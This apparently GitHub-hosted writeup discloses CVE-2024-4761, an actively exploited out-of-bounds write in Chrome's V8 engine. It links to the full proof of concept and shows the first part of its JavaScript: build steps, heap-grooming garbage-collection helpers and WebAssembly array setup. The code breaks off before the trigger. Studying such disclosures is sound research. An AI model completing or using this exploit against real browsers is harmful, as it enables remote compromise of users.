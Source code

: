 author: [@buptsb](https://x.com/buptsb), [@mistymntncop](https://x.com/mistymntncop) 
2024-05-22 06:53:59
part1: https://x.com/buptsb/status/1790305894401753441
full PoC: https://x.com/buptsb/status/1792197573694107877

_This writeup is the FIRST public disclosure for this vulnerability._

# Info

[N/A][339458194] High CVE-2024-4761: Out of bounds write in V8. Reported by Anonymous on 2024-05-09
https://chromereleases.googleblog.com/2024/05/stable-channel-update-for-desktop_13.html
Google is aware that an exploit for CVE-2024-4761 exists in the wild.

https://chromium-review.googlesource.com/c/v8/v8/+/5527397

# PoC
https://gist.github.com/mistymntncop/2cb449eb6aa30d35d1afd78a8b06bac2

```js
// Build d8 using:
// a) Run once
//    git checkout 6f98fbe86a0d11e6c902e2ee50f609db046daf71
//    gclient sync
//    gn gen ./out/x64.debug
//    gn gen ./out/x64.release
//
// b) 
//    Debug Build:
//    ninja -C ./out/x64.debug d8
//
//    Release Build:
//    ninja -C ./out/x64.release d8
//

function gc_minor() { //scavenge
    for(let i = 0; i < 1000; i++) {
        new ArrayBuffer(0x10000);
    }
}

function gc_major() { //mark-sweep
    new ArrayBuffer(0x7FE00000);
}

d8.file.execute("wasm-module-builder.js");

let builder = new WasmModuleBuilder();

let array_type = builder.addArray(kWasmI32, true);
builder.addFunction('create_array', makeSig([kWasmI32], [wasmRefType(array_type)]))
    .addBody([
        kExprLocalGet, 0,
        kGCPrefix, kExprArrayNewDefault, array_type,
    ])
.exportFunc();

let wasm_instance = builder.instantiate({});
let wasm = wasm_instance.exports;

const kDescriptorIndexBitCount = 10;
const kMaxNumberOfDescriptors = (1 << kDescriptorIndexBitCount) - 4; //1020

//TF_BUILTIN(ObjectAssign, ObjectBuiltinsAssembler)
```

[byte0]: instance size